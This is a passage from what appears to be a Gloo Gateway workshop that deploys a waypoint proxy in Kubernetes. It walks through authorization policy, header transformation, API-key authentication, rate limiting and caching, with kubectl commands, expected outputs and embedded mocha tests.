kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: gloo-waypoint
  namespace: httpbin
spec:
  gatewayClassName: gloo-waypoint
  listeners:
  - name: proxy
    port: 15088
    protocol: istio.io/PROXY
  - name: hbone
    port: 15008
    protocol: istio.io/HBONE
EOF
```

Run the following command to check the Waypoint has been deployed correctly:

```bash
kubectl --context ${CLUSTER1} -n httpbin rollout status deploy gloo-proxy-gloo-waypoint
```

You should get this output:

```
deployment "gloo-proxy-gloo-waypoint" successfully rolled out
```

Then, let's label the `httpbin2` service to use this Waypoint proxy.

```bash
kubectl --context ${CLUSTER1} -n httpbin label svc httpbin2 istio.io/use-waypoint=gloo-waypoint
```

We need a client to send request to the `httpbin2` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: client
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: client
  namespace: httpbin
  labels:
    app: client
    service: client
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: client
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: client
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: client
      version: v1
  template:
    metadata:
      labels:
        app: client
        version: v1
    spec:
      serviceAccountName: client
      containers:
      - image: nicolaka/netshoot:latest
        imagePullPolicy: IfNotPresent
        name: netshoot
        command: ["/bin/bash"]
        args: ["-c", "while true; do ping localhost; sleep 60;done"]
EOF
```

Now, let's demonstrate how to leverage the Waypoint proxy.

First of all, you can use the standard features provided by a standard waypoint.

Let's start with L7 Authorization.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: allow-get-only
  namespace: httpbin
spec:
  targetRefs:
  - kind: Service
    group: ""
    name: httpbin2
  action: ALLOW
  rules:
  - from:
    - source:
        principals:
        - cluster.local/ns/httpbin/sa/client
    to:
    - operation:
        methods: ["GET"]
EOF
```

This policy means that only the client can send requests to `httpbin2`, and only GET requests.

Try to send a POST request:

```shell
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -s -X POST http://httpbin2:8000/post
```

You'll get the following response:

```,nocopy
RBAC: access denied
```

Try to send a GET request:

```shell
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -s http://httpbin2:8000/get
```

This time it works !

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("AuthorizationPolicy is working properly", function() {
  it("The client isn't allowed to send POST requests", () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -m 2 --max-time 2 -s -X POST -o /dev/null -w "%{http_code}" "http://httpbin2:8000/post"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('403');
  });
  it("The client isn't allowed to send GET requests", () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -m 2 --max-time 2 -s -o /dev/null -w "%{http_code}" "http://httpbin2:8000/get"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('200');
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/waypoint/tests/authorization.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Let's delete the policy:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete authorizationpolicy allow-get-only
```

The Kubernetes Gateway API provides different options to add/update/remove request and response headers.

Let's try with request headers.

Update the `HTTPRoute` resource to do the following:
- add a new header `Foo` with the value `bar`
- update the value of the header `User-Agent` to `custom`
- remove the `To-Remove` header

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin2
  namespace: httpbin
spec:
  parentRefs:
  - name: gloo-waypoint
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin2
          port: 8000
      filters:
        - type: RequestHeaderModifier
          requestHeaderModifier:
            add:
              - name: Foo
                value: bar
            set:
              - name: User-Agent
                value: custom
            remove:
              - To-Remove
EOF
```

Try to access the application (with the `To-Remove` request header added):

```shell
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -s http://httpbin2:8000/get -H 'To-Remove: whatever'
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Foo": [
      "bar"
    ],
    "Host": [
      "httpbin2:8000"
    ],
    "User-Agent": [
      "custom"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "8595e525-4484-4aaa-8f56-97a96163c333"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:48727",
  "url": "http://httpbin2:8000/get"
}
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("request transformations applied", function() {
  it('Checking text \'bar\'', () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -s "http://httpbin2:8000/get"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('bar');
  });
  it('Checking text \'custom\'', () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -s "http://httpbin2:8000/get"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('custom');
  });
  it('Checking text \'To-Remove\'', () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -s "http://httpbin2:8000/get"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.not.to.contain('To-Remove');
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/waypoint/tests/request-headers.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Gloo Gateway provides some extensions to manipulate requests and responses in a more advanced way.

Let's extract the product name from the `User-Agent` header (getting read of the product version and comments).

To do that we need to create a Gloo Gateway `RouteOption` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin2
  options:
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                client:
                  header: 'User-Agent'
                  regex: '^([^/\s]+).*'
                  subgroup: 1
              headers:
                x-client:
                  text: "{{ client }}"
EOF
```

Try to access the application:

```shell
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -s http://httpbin2:8000/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Client": [
      "curl"
    ],
    "X-Envoy-Expected-Rq-Timeout-Ms": [
      "15000"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "49dd1010-9388-4d50-b4c7-298cec409f3d"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:48727",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("request transformations applied", function() {
  it('Checking text \'X-Client\'', () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -s -H "User-agent: curl/8.5.0" "http://httpbin2:8000/get"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('X-Client');
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/waypoint/tests/x-client-request-header.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

As you can see, we've created a new header called `X-Client` by extracting some data from the `User-Agent` header using a regular expression.

And we've targetted the `HTTPRoute` using the `targetRefs` of the `RouteOption` object. With this approach, it applies to all its rules.

We can also use the extauth capabilities of Gloo Gateway. Let's secure the access to the `httpbin2` service using Api keys.

First, we need to create an `AuthConfig`, which is a CRD that contains authentication information. We will create a secret with the apikey as well:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
type: extauth.solo.io/apikey
metadata:
  labels:
    team: product-excellence
  name: global-apikey
  namespace: gloo-system
stringData:
  api-key: apikey1
  organization: solo.io
---
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: apikeys
  namespace: httpbin
spec:
  configs:
  - apiKeyAuth:
      headerName: api-key
      labelSelector:
        team: product-excellence
      headersFromMetadataEntry:
        X-Organization:
          name: organization
EOF
```

After that, you need to update the `RouteOption`, to reference the `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin2
  options:
    extauth:
      configRef:
        name: apikeys
        namespace: httpbin
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("Authentication with apikeys is working properly", function() {
  it("The httpbin2 service isn't accessible without authenticating", () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -s -o /dev/null -w "%{http_code}" "http://httpbin2:8000/get"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('401');
  });
  it("The httpbin2 service is accessible after authenticating", () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -s -o /dev/null -w "%{http_code}" -H "api-key: apikey1" "http://httpbin2:8000/get"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('200');
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/waypoint/tests/authentication.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

After you've completed these steps, you should be able to access the `httpbin2` service using the api key. You can test this by running the following command:

```shell
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -s http://httpbin2:8000/get -H "api-key: apikey1"
```

You can see the `X-Organization` header added with the value gathered from the secret.

We can also use the rate limiting capabilities of Gloo Gateway. Let's secure the access to the `httpbin2` service using Api keys.

We're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitConfig` object to define the limits:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: ratelimit.solo.io/v1alpha1
kind: RateLimitConfig
metadata:
  name: limit-users
  namespace: httpbin
spec:
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
    rateLimits:
    - setActions:
      - requestHeaders:
          descriptorKey: organization
          headerName: X-Organization
EOF
```

Finally, you need to update the `RouteOption` to use this `RateLimitConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin2
  options:
    extauth:
      configRef:
        name: apikeys
        namespace: httpbin
    rateLimitConfigs:
      refs:
      - name: limit-users
        namespace: httpbin
EOF
```

Run the following command several times:

```shell
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -s http://httpbin2:8000/get -H "api-key: apikey1" -I
```

You should get a `200` response code the first 3 times and a `429` response code after.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("Rate limiting is working properly", function() {
  it("The httpbin2 service should be rate limited", () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -s -o /dev/null -w "%{http_code}" -H "api-key: apikey1" "http://httpbin2:8000/get"`;
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('429');
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/waypoint/tests/rate-limited.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Let's delete the `RouteOption`:

```bash
kubectl delete --context ${CLUSTER1} -n httpbin routeoption routeoption
```

We can also configure caching on all routes processed by the Waypoint that we have already set up.

We do this by defining a `HttpListenerOption` resource that includes a reference to the caching server:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: HttpListenerOption
metadata:
  name: cache
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: gloo-waypoint
  options:
    caching:
      cachingServiceRef:
        name: caching-service
        namespace: gloo-system
EOF
```

Let's test this configuration by making three requests to the `/cache` endpoint with a 10s cache TTL value, waiting 6 seconds between requests:

```shell
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -ksSD - -o /dev/null http://httpbin2:8000/cache/10
sleep 6
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -ksSD - -o /dev/null http://httpbin2:8000/cache/10
sleep 6
kubectl --context ${CLUSTER1} -n httpbin exec deploy/client -- curl -ksSD - -o /dev/null http://httpbin2:8000/cache/10
```

Check the responses:

```http,nocopy
HTTP/1.1 200 OK
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Tue, 29 Oct 2024 17:00:18 GMT
content-length: 508
x-envoy-upstream-service-time: 0
server: envoy

HTTP/1.1 200 OK
cache-control: public, max-age=10
access-control-allow-origin: *
content-type: application/json; charset=utf-8
content-length: 508
date: Tue, 29 Oct 2024 17:00:18 GMT
x-envoy-upstream-service-time: 0
access-control-allow-credentials: true
age: 6
server: envoy

HTTP/1.1 200 OK
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Tue, 29 Oct 2024 17:00:30 GMT
content-length: 508
x-envoy-upstream-service-time: 0
server: envoy
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("Caching", function() {
  it("returns a cached response within cache TTL", () => {
    let command = `kubectl --context ${process.env.CLUSTER1} -n httpbin exec deploy/client -- curl -ksSD - -o /dev/null "http://httpbin2:8000/cache/10"`;
    let cli = chaiExec(command);
    expect(cli).output.to.contain('age:');
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/waypoint/tests/caching-applies.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Notice that the first two responses have the same `date` header showing that the response for the first request was also returned as the response for the second request.
The second response also has a new `age` header, corresponding to how long the response has been cached for.

The third response has a different `date` timestamp and no `age` header:
this request was made 12 seconds after the first, but the cache entry had expired 10 seconds after the original request, so the third request did not receive a cached response.

Let's delete the resources we've created:

```bash
kubectl delete --context ${CLUSTER1} -n httpbin ratelimitconfig limit-users
kubectl delete --context ${CLUSTER1} -n httpbin authconfig apikeys
kubectl delete --context ${CLUSTER1} -n gloo-system secret global-apikey
kubectl delete --context ${CLUSTER1} -n httpbin httproute httpbin2
kubectl delete --context ${CLUSTER1} -n httpbin httplisteneroption cache
```


